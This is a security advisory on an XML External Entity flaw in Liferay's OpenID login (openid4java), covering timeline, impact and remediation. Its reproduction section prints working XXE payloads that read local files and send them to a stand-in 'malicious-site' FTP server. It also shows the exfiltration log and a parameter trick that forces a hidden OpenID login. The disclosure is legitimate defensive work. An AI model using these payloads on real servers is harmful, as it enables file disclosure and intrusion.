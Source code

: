 # XML External Entity XXE vulnerability in OpenID component of Liferay

- Author: Sandro Gauci <sandro@enablesecurity.com>
- Vulnerable version: Liferay 6.2.3 CE GA4 and earlier
- Liferay reference: LPS-58014
- Advisory URL: <https://github.com/EnableSecurity/advisories/tree/master/ES2016-01-liferay-xxe>
- Timeline:
	- Report date: March 16 2015
	- Liferay patch: August 26 2015
	- Liferay advisory: January 18 2016
	- Enable Security advisory: June 1 2016

## Description

Liferay supports OpenID login which was found to make use of a version
of `openid4java` that is vulnerable to XML External Entity (XXE)
attacks.

## Impact

Abuse of the XXE vulnerability can (at least) lead to local file
disclosure, server-side request forgery (SSRF) and denial of service.
This vulnerability was abused to read local files on the web server
that the web application had access to.

## How to reproduce the issue

This issue was previously discovered to affect  [one of Google's web
server](https://code.google.com/p/chromium/issues/detail?id=240139)
which was using the same OpenID library.

To abuse this vulnerability, an attacker needs to:

1. Force Liferay to make use of OpenID for authentication
2. Provide an attacker-controlled URL (web location) as the OpenID URL. This URL should contain malicious XML (see below)
3. Upon reading the XML, the OpenID library will attempt to load the external entity on the attacker's web server
4. This external entity instructs the library to read a file from local disk and make use of it's contents to load another file from an attacker controlled (custom) FTP server

Thus the contents of the file to be read are sent to the custom FTP
server. During exploitation, we had to make use of a fake FTP server
(from <https://github.com/ONsec-Lab/scripts>) to receive the
information. However, it might be possible to use HTTP and other
protocols too depending on the version of Java used and other
variables.

For step 1, the attacker needs to locate the authentication form in
Liferay and then click on the OpenID link. The attacker then specifies <http://malicious-site> as an OpenID URL. This website would contain the following:

```html
<meta http-equiv="X-XRDS-Location" 
	content="http://malicious-site/yadis.xml"> 
```

As the OpenID library reads that, it loads `yadis.xml` which would contain the
following:

```xml
<?xml version="1.0"?>
	<!DOCTYPE a [
	   <!ENTITY % asd SYSTEM "http://malicious-site/xxe.xml"> 
	   %asd; 
	   %rrr; 
	]>
<a></a>
```

This loads `xxe.xml` which in turn would contain the following:

	<!ENTITY % b SYSTEM "file:///">
	<!ENTITY % c "<!ENTITY &#37; rrr SYSTEM 'ftp://malicious-site:443/%b;'>">
	%c;

Once the XML interpreter parses these contents, it connects to the FTP
site, sending the contents of the root directory on the server as can
be seen in the following log:

	> sudo ruby xxe-ftp-server.rb
	FTP. New client connected
	< USER anonymous
	< PASS Java1.6.0_21@
	> 230 more data please!
	< TYPE I
	> 230 more data please!
	< EPSV ALL
	> 230 more data please!
	< EPSV
	> 230 more data please!
	< EPRT |1|172.x.x.x|39051|
	> 230 more data please!
	< bin
	> 230 more data please!
	< boot
	> 230 more data please!
	< dev
	> 230 more data please!
	< etc
	> 230 more data please!
	< home
	> 230 more data please!
	... etc

Directories and also local files could be read using this method.

Note that sometimes the OpenID login method is hidden but the functionality is not disabled from within Liferay itself. In such cases, it is possible to force Liferay to make use of OpenID anyway by setting the `_58_struts_action` parameter from `/login/login` to `/login/open_id`. 

## Solutions and recommendations

Upgrading to the latest version of Liferay should address this
security vulnerability. The patch was published at the following location: <https://sourceforge.net/projects/liferay-patches/files/6.2.3%20GA4/>

Additionally, to address this issue it is recommended to disable
OpenID support.

## Further reading

- <http://openid.net/2011/05/05/attribute-exchange-security-alert/>
- <https://code.google.com/p/chromium/issues/detail?id=240139>

## About Enable Security

[Enable Security](https://www.enablesecurity.com) provides Information Security services, including Penetration Testing, Research and Development, to help protect client networks and applications against online attackers.

## Disclaimer

The information in the advisory is believed to be accurate at the
time of publishing based on currently available information. Use of the
information constitutes acceptance for use in an AS IS condition. There are no
warranties with regard to this information. Neither the author nor the publisher
accepts any liability for any direct, indirect, or consequential loss or damage
arising from use of, or reliance on, this information.
